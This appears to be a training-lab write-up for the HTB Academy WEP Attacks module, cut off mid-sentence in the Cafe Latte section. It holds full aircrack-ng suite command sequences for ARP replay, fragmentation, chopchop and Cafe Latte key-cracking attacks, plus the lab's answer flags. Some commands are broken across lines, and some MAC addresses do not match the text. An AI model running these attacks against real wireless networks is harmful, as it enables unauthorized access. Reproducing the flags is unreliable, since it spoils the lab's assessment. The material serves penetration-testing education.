Welcome to **Part 41** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **Wired Equivalent Privacy (WEP) Attacks** (Tier I • Easy • Offensive). We break down the underlying mechanics of legacy WEP encryption flaws, RC4 stream cipher vulnerabilities, 24-bit Initialization Vector (IV) collisions, ARP request replay attacks, and statistical key recovery (FMS/PTW), dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-40-wifi-penetration-testing-basics/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 40: Wi-Fi Penetration Testing Basics & 802.11 Analysis</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 41 of 41</span>
  </div>
  <div class="ff-nav-placeholder"></div>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `Wired Equivalent Privacy (WEP) Attacks` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/132](https://academy.hackthebox.com/module/132) |
| **Curriculum Tier & Difficulty** | `Tier I` • `Easy` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 41 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **WEP Cryptographic Weaknesses**: Explains how 24-bit Initialization Vectors (IVs) combined with the RC4 stream cipher result in rapid IV reuse and keystream leakage.
* **ARP Request Replay**: Injects captured ARP request frames with `aireplay-ng -3` to force the Access Point to generate thousands of fresh IVs per minute.
* **Statistical Key Recovery**: Employs `aircrack-ng` to execute the PTW (Pyshkin, Tews, Weinmann) and FMS attacks to reconstruct the master WEP key.
* **Chopchop & Fragmentation Attacks**: Decrypts WEP data packets and generates valid PRGA keystreams without knowing the encryption key.
* **Enterprise Decommissioning**: Highlights the urgent necessity of removing legacy WEP hardware in favor of WPA2/WPA3-Enterprise.

## Executive Summary & Assessment Scope

Wired Equivalent Privacy (WEP) was the original security algorithm introduced in the IEEE 802.11 standard. Severe mathematical vulnerabilities in its implementation of the RC4 stream cipher and short 24-bit Initialization Vectors allow complete key recovery within minutes.

In this module, we conduct a technical analysis of WEP cryptanalytic attacks. We capture initialization vectors, execute ARP request replay packet injection, perform statistical key recovery using Aircrack-ng, and capture all assessment flags.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### Wired Equivalent Privacy (WEP) Attacks

> **Lab Question (Page 1)**: Repeat the example shown in the section, and submit DONE as the answer when finished.
>
> **Flag / Answer**: `DONE`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

```bash
xfreerdp /v:<Target IP> /u:<username> /p:<password>
```
/dynamic-resolution

this operation will be referred throughout the writeup as 'RDP login'.
the default credentials are 'wifi:wifi', unless specified otherwise.

WEP Encryption
Seed Generation and the RC4 Algorithm:
Question: Repeat the example shown in the section, and submit DONE as the
answer when finished.
Answer: DONE
Method: execution of the script from the section's guide:


*_Figure 1.1 — Lab execution and output verification (Page 1)_*


### CRC32 Generation (WEP's ICV Algorithm)

> **Lab Question (Page 2)**: Examine the script shown in the section. After changing the plaintext to HackTheBox, what is the outputted value of the CRC32?
>
> **Flag / Answer**: `254452502`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

running the script in the section's guide (after setting the
'HackTheBox' as the parameter):


Putting Together the Algorithms:
Question: Run the script shown in the section and change the plaintext to
HackTheWifi. What is the output value of the CRC32 Checksum?
Answer: 2780581187
Method: running the script in the section's guide (after setting the
'HackTheWifi' as the parameter):


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


*_Figure 2.2 — Lab execution and output verification (Page 2)_*


### Finding the Initialization Vector with Wireshark

> **Lab Question (Page 3)**: Use Wireshark to open the file /opt/IV-Wireshark.pcap and locate the Initialization Vectors (IVs). What is the IV for packet number 14?
>
> **Flag / Answer**: `0xff0100`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, lets open the packet in the target machine:
wireshark /opt/IV-Wireshark.pcap
and open packet 14 – 'IEEE 802.11 Data'  →  'WEP parameters' , there we will
```bash
find the initialization vector:
```


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


### ARP Request Replay Attack

> **Lab Question (Page 4)**: Perform the ARP Request Replay attack on the WiFi network. What is the WEP KEY for this network? (Format: xx:xx:xx:xx:xx)
>
> **Flag / Answer**: `12:34:51:23:45`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, lets set the monitoring mode on
```bash
sudo airmon-ng start wlan0;
```


Now, lets scan for available networks on channel 1 (as instructed, we go for
channel 1). We will save the result in a file 'WEP-01.cap':
```bash
sudo airodump-ng wlan0mon -c 1 -w WEP
```


We got the client's MAC address 'B6:5F:C5:21:CF:85'.


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


*_Figure 4.2 — Lab execution and output verification (Page 4)_*


### the obtained client's mac address

Now, we keep the scan running and open a new terminal.
In it we run the ARP (address resolution protocol) attack on the network, using
the obtained client's mac address:
```bash
sudo aireplay-ng -3 -b D8:D6:3D:EB:29:D5 -h
```
22:F1:AD:B3:28:E6 wlan0mon
*-3 is for the ARP request replay attack. *

And wait until the number of ARP requests is greater than 0.

Once we have that – we can start the cracking of the cap file, where the
initialization vectors are stored, using aircrack-ng:
```bash
sudo aircrack-ng -b D8:D6:3D:EB:29:D5 WEP-01.cap
```
*It can be done with both keep the arp sender running, or stopping it – but
keep the network scan running. *

And obtain the key!


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


### Fragmentation Attack

> **Lab Question (Page 6)**: Perform the Fragmentation attack on the WiFi network. What is the WEP KEY for this network? (Format: XX:XX:XX:XX:XX)
>
> **Flag / Answer**: `2B:51:5A:7E:F4`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we wills start by setting monitor mode on and scanning channel 1 as
done on previous section, outputting the results to 'WEP-10.cap'
```bash
sudo airmon-ng start wlan0;
sudo airodump-ng wlan0mon -c 1 -w WEP;
```


The network BSSID is 'D8:D6:3D:EB:29:D5' and the client MAC connected to
that network is 'E2:81:4B:44:26:DE'.

Let's keep this running and open a new terminal.
Now we will proceed to run the fragmentation attack, denoted with the flag '-
5':
```bash
sudo aireplay-ng -5 -b D8:D6:3D:EB:29:D5 -h
```
E2:81:4B:44:26:DE wlan0mon


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


### Now let's forge the ARP requests

We enter 'y' for the prompt

Output was saved to a file 'fragment-1228-145324.xor'.

Now let's forge the ARP requests:
```bash
sudo packetforge-ng -0 -a D8:D6:3D:EB:29:D5 -h
```
E2:81:4B:44:26:DE -k 255.255.255.255 -l 255.255.255.255 -y
fragment-1228-145324.xor -w forgedarp.cap
results were outputted to 'forgedarp.cap'


We will use that to run 'Interactive Packet Replay' – denoted by the flag '-2':
```bash
sudo aireplay-ng -2 -r forgedarp.cap -h E2:81:4B:44:26:DE
```
wlan0mon


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


*_Figure 7.2 — Lab execution and output verification (Page 7)_*


*_Figure 7.3 — Lab execution and output verification (Page 7)_*


### ARP request replay attack

We will keep this running, and open a new terminal – where we will run the
ARP request replay attack:
```bash
sudo aireplay-ng -3 -b D8:D6:3D:EB:29:D5 -h
```
E2:81:4B:44:26:DE wlan0mon


We keep this running, and make sure that the number of the ARP requests is
greater than 0.

And on a another terminal (should be 4 th one) - we proceed to crack the data
for the key:
```bash
sudo aircrack-ng -b D8:D6:3D:EB:29:D5 WEP-01.cap
```


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


*_Figure 8.3 — Lab execution and output verification (Page 8)_*


### Korek Chop Chop Attack

> **Lab Question (Page 9)**: Perform the Korek Chop Chop attack on the WiFi network. What is the WEP KEY for this network? (Format: XX:XX:XX:XX:XX)
>
> **Flag / Answer**: `1A:64:8C:9F:E2`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we wills start by setting monitor mode on and scanning channel 1 as
done on previous sections, outputting the results to 'WEP-10.cap'
```bash
sudo airmon-ng start wlan0;
sudo airodump-ng wlan0mon -c 1 -w WEP;
```


The network BSSID is 'D8:D6:3D:EB:29:D5' and the client MAC connected to
that network is '92:5B:D0:15:DB:2E'.

Lets keep this running and open a new terminal.
On the new terminal – lets start the 'KoreK chop chop' attack – denoted by the
flag '-4' on the tool 'aireplay-ng':
```bash
sudo aireplay-ng -4 -b D8:D6:3D:EB:29:D5 -h
```
66:F9:21:A0:9C:DB wlan0mon


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


### Enter y on prompt

Enter y on prompt:

*
*

*note – execution might take approximately 2-5 minutes. *

We get 2 files as an output – 'replay_dec-1228-155230.cap' and 'replay_dec-
1228-155230.xor'.


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*


*_Figure 10.3 — Lab execution and output verification (Page 10)_*


### IP addresses

First – lets analyze the .cap file with tcpdump to obtain source and sestination
IP addresses:
```bash
sudo tcpdump -s 0 -n -e -r replay_dec-1228-155230.cap
```


The IP '192.168.1.75' is the source IP , or more specifically for this case – the
client IP .
And the IP '192.168.1.1' is the destination IP , or more specifically for this case –
the access point (the network) IP .

Now lets forge an ARP packets, where the '-k' flag will be the access point IP
('192.168.1.1'), and the '-l' flag will be the client's IP ('192.168.1.75')
```bash
sudo packetforge-ng -0 -a D8:D6:3D:EB:29:D5 -h
```
92:5B:D0:15:DB:2E -k 192.168.1.1 -l 192.168.1.75 -y
replay_dec-1228-155230.xor -w forgedarp.cap
the output of the command will be directed to 'forgedarp.cap':


Now lets start the replay attack:
```bash
sudo aireplay-ng -2 -r forgedarp.cap -h 92:5B:D0:15:DB:2E
```
wlan0mon
(enter 'y' on prompt):


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


While the attack is running, on a new terminal – we run the arp request replay
```bash
sudo aireplay-ng -3 -b D8:D6:3D:EB:29:D5 -h
```
E2:81:4B:44:26:DE wlan0mon


And while that runs, on a new terminal – we run the key cracking:
```bash
sudo aircrack-ng -b D8:D6:3D:EB:29:D5 WEP-01.cap
```


*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*_Figure 12.2 — Lab execution and output verification (Page 12)_*


*_Figure 12.3 — Lab execution and output verification (Page 12)_*


### The Cafe Latte Attack

> **Lab Question (Page 13)**: Perform the Cafe Latte attack on the WiFi network. What is the WEP KEY for this network? (Format: XX:XX:XX:XX:XX)
>
> **Flag / Answer**: `1A:2B:3C:4D:5E`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we wills start by setting monitor mode on and scanning channel 1 as
done on previous sections, outputting the results to 'WEP-10.cap'
```bash
sudo airmon-ng start wlan0;
sudo airodump-ng wlan0mon -c 1 -w WEP;
```


The network's name (the EESID) is 'HackTheWifi', it's BSSID is
'D8:D6:3D:EB:29:D5' and the client MAC connected to that network is
'2E:CF:5C:AC:F6:9D'.

We keep the scan running and open a new terminal – where we run the 'Café
Latte' attack – denoted with the '-6' flag on 'aireplay-ng':
```bash
sudo aireplay-ng -6 -D -b D8:D6:3D:EB:29:D5 -h
```
2E:CF:5C:AC:F6:9D wlan0mon


We keep this running as well and open a new terminal – where we run

